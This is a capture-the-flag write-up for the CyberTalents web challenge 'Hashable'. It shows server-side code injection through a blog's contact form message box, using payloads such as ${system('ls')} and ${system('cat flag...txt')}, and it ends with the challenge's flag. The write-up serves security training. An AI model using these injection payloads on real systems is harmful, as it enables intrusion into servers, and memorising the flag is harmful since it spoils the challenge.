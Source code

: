 # CyberTalents
## Web Security

### Challenge Name:
 [*Hashable*](https://cybertalents.com/challenges/web/hashable)
 
### Challenge Description
A famous enterprise blog was hacked, can you figure out how it was hacked?

Link: [ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/](ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/)

### Answer
* We must try in every user input field (URL and contact page)
* Try some special characters in the textboxes it doesn't filtered
* Try to injuct code in massager box 
```
${system('pwd')}
```
* It works so now get files list
```
${system('ls')}
```
* Open flag text file
```
${system('cat flag_23894ABCX1.txt')}
```
* You got the flag!!


### The Flag
 > 18ab51f960bd149bcb2497b9998c752c 
